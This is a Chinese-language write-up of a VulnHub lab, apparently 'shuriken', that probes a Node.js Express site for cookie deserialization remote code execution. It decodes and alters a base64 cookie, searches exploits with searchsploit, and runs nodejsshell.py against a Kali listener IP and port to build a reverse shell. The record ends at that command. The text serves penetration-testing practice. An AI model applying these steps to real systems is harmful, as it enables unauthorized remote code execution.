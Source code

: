 再次详细探测8080端口的默认界面，发现几个用户名，也就是文章发布者，并且发现两张图片

![](D:\stu\vulnhub\shuriken靶场\pic-2\8.jpg)

# 漏洞寻找

把文章中的图片都下载，然后使用工具分析，也没有隐藏信息。

那么尝试中间件吧，之前使用`nmap`扫描的时候，注意这里不再是`apache2`，而是`node.js express framework`

使用`searchsploit`搜索有无该中间件的一些漏洞，因为这里是网站，所以根据搜索发现两个适合的，并且一个为`py`脚本，一个为`js`，并且都是序列化漏洞，可以远程代码执行的，下面还有一个文档，可以在上面漏洞无法使用时，查看

![](D:\stu\vulnhub\shuriken靶场\pic-2\9.jpg)

先测试`python`脚本是否可用，因为本人对于`python`代码相对比`js`代码好点，查看脚本代码，发现有需要修改的地方，也就是修改IP地址

![](D:\stu\vulnhub\shuriken靶场\pic-2\10.jpg)

不过测试发现并不能成功，那么查看文档，PDF文档详细记录了复现过程以及使用什么工具，那么可以按照文档中的内容进行复现，这里因为太长，所以截取关键图片

![](D:\stu\vulnhub\shuriken靶场\pic-2\11.jpg)

不过阅读文章发现，这里是通过修改`cookie`进行的漏洞，也就是`cookie`存在反序列化，那么查看原本的`cookie`

发现为`eyJ1c2VybmFtZSI6Ikd1ZXN0IiwiaXNHdWVzdCI6dHJ1ZSwiZW5jb2RpbmciOiAidXRmLTgifQ%3D%3D`，也就是`base64`编码后的，这里的`%3D`是`=`的`url`编码

![](D:\stu\vulnhub\shuriken靶场\pic-2\11-1.jpg)

解码后，发现是一串字符，类似于`json`格式，并且其中的`guest`正是在主页中的显示`welcome guest`

![](D:\stu\vulnhub\shuriken靶场\pic-2\11-2.jpg)

把其中的内容进行一个修改`username:superman`，然后编码后查看有无变化，可以看到`guest`变成`superman`

![](D:\stu\vulnhub\shuriken靶场\pic-2\11-3.jpg)

尝试把其中的参数再次修改，比如`admin`测试，发现还是无变化，再把`isguest`改为`false`，也无变化，说明还是需要按照文章来

使用`wget`或者找到`git`地址，使用`wget`或者`git`下载到本地，下载工具及配件

```shell
git clone https://github.com/ajinabraham/Node.Js-Security-Course.git
```

![](D:\stu\vulnhub\shuriken靶场\pic-2\12.jpg)

# 漏洞利用

尝试使用，该脚本是使用`python2`执行的，后面跟着`kali`的地址以及端口，用于监听反弹shell

```shell
python2 nodejsshell.py 192.168.1.16 9999
```
